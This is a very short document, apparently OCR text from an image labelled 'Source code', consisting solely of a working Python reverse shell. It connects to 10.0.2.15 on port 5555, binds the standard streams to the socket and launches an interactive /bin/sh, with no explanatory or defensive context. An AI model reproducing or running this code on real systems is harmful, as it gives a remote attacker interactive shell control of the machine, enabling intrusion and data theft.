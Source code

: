 import socket 
import subprocess 
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.2.15",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
